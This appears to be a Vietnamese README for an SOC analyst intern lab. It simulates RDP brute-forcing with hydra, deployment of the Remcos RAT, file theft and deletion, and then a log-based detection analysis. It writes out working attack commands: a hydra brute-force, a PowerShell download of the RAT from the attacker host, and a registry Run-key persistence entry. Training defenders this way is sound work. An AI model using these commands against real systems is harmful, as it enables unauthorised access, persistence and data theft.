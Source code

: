 # SOC Analyst Intern Project - RDP Brute-force & Remcos RAT Attack Simulation

# Mô tả Dự Án
Dự án mô phỏng kịch bản tấn công vào hệ thống Windows bằng phương pháp brute-force dịch vụ RDP, sau đó triển khai mã độc Remcos (Remote Access Trojan) để thực hiện Remote Code Execution (RCE), đánh cắp file và xóa dấu vết. Bài lab nhằm rèn luyện kỹ năng phát hiện, điều tra và phân tích sự cố trong vai trò SOC Analyst.

# Môi Trường Thực Hiện

# Windows 10 (IP: 192.168.1.5)
   - Tắt Windows Firewall
   - Bật Remote Desktop (RDP), mở port 3389
# Kali Linux (IP: 192.168.1.137)
   - Mã độc Remcos v6.1.0 Light (tải từ trang chủ Remcos)
# Điều kiện 2 máy ping được nhau
# Các Bước Thực Hiện
1. Khai Thác Brute-force Dịch Vụ RDP

Tạo file user.txt và pass.txt trên Kali

Sử dụng nmap để quét cổng 3389:

nmap -p 3389 192.168.1.5

Sử dụng hydra brute-force RDP:

hydra -t 1 -w 3 -L user.txt -P pass.txt rdp://192.168.1.5

Kết quả thành công:

Username: nhatnm

Password: 23032004

2. Triển Khai Mã Độc Remcos

Dựng HTTP server bằng Python:

python3 -m http.server 8000

Tải mã độc từ máy Kali về máy Windows:

powershell -c "Invoke-WebRequest -Uri http://192.168.1.137:8000/'Remcos v6.1.0 Light.exe' -OutFile C:\Users\Public\remcos.exe"

Thêm registry để thiết lập persistence:

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v remcos /t REG_SZ /d "C:\Users\Public\remcos.exe"

3. Thực Thi Tấn Công RCE và Xóa File

Thực hiện điều khiển từ xa qua Remcos

Đánh cắp file matma.txt từ thư mục: C:\Users\<user>\Desktop\bimat\

Xóa file gốc sau khi lấy cắp thành công

Phân Tích Sau Tấn Công

1. Phân Tích Log Windows

Event ID 4625: Nhiều lần đăng nhập thất bại (brute-force)

Event ID 4624: Đăng nhập thành công từ xa qua RDP

Sysmon ID 3: Ghi nhận kết nối mạng bất thường

Sysmon ID 1: Ghi nhận quá trình thêm registry (persistence)

2. Kết Luận

Nguồn tấn công: 192.168.1.137 (máy Kali)

Đích: 192.168.1.5 (máy Windows)

Cổng: 43064

Hostname tấn công: nhat.lan

Các giai đoạn:

Brute-force mật khẩu

Đăng nhập thành công

Cài đặt và thực thi Remcos RAT

RCE, đánh cắp dữ liệu và xóa file




